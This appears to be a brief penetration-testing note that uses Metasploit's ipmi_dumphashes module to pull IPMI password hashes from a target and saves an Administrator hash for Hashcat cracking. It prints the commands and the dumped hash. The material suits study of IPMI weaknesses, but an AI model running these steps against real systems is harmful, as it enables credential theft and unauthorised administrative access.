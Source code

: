 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
msfconsole
```

```bash - kali
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

```bash - kali
set RHOSTS $TARGET 
```

```bash - kali
run
```

The hash for user Administrator is retrieved. Let's save it in a file and use Hashcat to attempt to crack the hash.
```bash - kali
echo -n 3c08a6bf020500008edc65459227db9e4de83261ee2eafe9429a07eb96d30b745fef6f821dd97d81a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:80026d133489237175ee975d5dff53f4c923b396 > hash 
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#IPMI2 RAKP HMAC-SHA1]]